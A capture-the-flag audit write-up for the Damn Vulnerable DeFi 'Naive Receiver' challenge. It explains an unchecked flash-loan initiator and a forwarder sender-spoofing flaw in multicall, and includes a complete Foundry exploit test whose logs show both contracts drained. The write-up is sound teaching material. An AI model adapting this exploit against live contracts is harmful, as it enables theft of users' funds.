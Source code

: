 # Damn Vulnerable Defi - Naive Receiver
- Scope
    - BasicForwarder.sol
    - FlashLoanReceiver.sol  
    - Multicall.sol
    - NaiveReceiverPool.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

## `onFlashLoan()` does not verify the initiator of the transaction & `multiCall()` does not append the original sender's address

### Summary
1. `onFlashLoan()` does not verify the initiator of the transaction, allowing the initiator to force another user's address to be the borrower and pay flash loan fees to the pool.
2. `multiCall()` does not append the original sender's address if called by Forwarder, allowing a user to call `withdraw()` from pool under the pretext of Forwarder's address


### Vulnerability Details
1. `onFlashLoan()` does not verify the initiator of the transaction
```diff
function onFlashLoan(address, address token, uint256 amount, uint256 fee, bytes calldata)
        external
        returns (bytes32)
    {
        assembly {
            // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }

        if (token != address(NaiveReceiverPool(pool).weth())) revert NaiveReceiverPool.UnsupportedCurrency();

        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        WETH(payable(token)).approve(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
```
2. `multiCall()` does not append the original sender's address if called by Forwarder.
```
function multicall(bytes[] calldata data) external virtual returns (bytes[] memory results) {
        results = new bytes[](data.length);
        for (uint256 i = 0; i < data.length; i++) {
            results[i] = Address.functionDelegateCall(address(this), data[i]);
        }
        return results;
    }
```
### Impact/Proof of Concept
```
function test_naiveReceiver() public checkSolvedByPlayer {
        // 1. Drain from Receiver
        console.log("Receiver's beforeBalance: ", weth.balanceOf(address(receiver)) / 1e18);
        uint256 numLoans = 10;
        bytes[] memory data = new bytes[](numLoans);
        bytes memory flashLoanCallData = abi.encodeCall(
            pool.flashLoan,
            (receiver, address(weth), 0, "")
        );
        for (uint256 i; i < numLoans; ) {
            data[i] = flashLoanCallData;
            unchecked {
                ++i;
            }
        }
        pool.multicall(data); // Transaction #1
        console.log("Receiver's afterBalance: ", weth.balanceOf(address(receiver)) / 1e18);

        // 2. Drain from Pool
        console.log("Pool's beforeBalance: ", weth.balanceOf(address(pool)) / 1e18);
        bytes[] memory multicallData = new bytes[](1);
        multicallData[0] = abi.encodePacked(
                abi.encodeCall(
                    pool.withdraw,
                    (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))
                ),
                deployer
            );


        BasicForwarder.Request memory request = BasicForwarder.Request({
            from: player,
            target: address(pool),
            value: 0,
            gas: gasleft(),
            nonce: 0,
            data: abi.encodeCall(Multicall.multicall, (multicallData)),
            deadline: block.timestamp
        });

        bytes32 messageHash = forwarder.getDataHash(request);
        bytes32 digest = keccak256(
            abi.encodePacked(
                "\x19\x01",
                forwarder.domainSeparator(),
                messageHash
            )
        );
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, digest);
        bytes memory signature = abi.encodePacked(r, s, v);

        address signer = ECDSA.recover(digest, signature);
        assertEq(signer, player, "invalid signer");

        forwarder.execute(request, signature); // Transaction #2
        console.log("Pool's afterBalance: ", weth.balanceOf(address(pool)) / 1e18);
        console.log("Recovery's Balance: ", weth.balanceOf(address(recovery)) / 1e18);
    }
```

Results
```diff
[PASS] test_naiveReceiver() (gas: 419423)
Logs:
  Receiver's beforeBalance:  10
  Receiver's afterBalance:  0
  Pool's beforeBalance:  1010
  Pool's afterBalance:  0
  Recovery's Balance:  1010
```
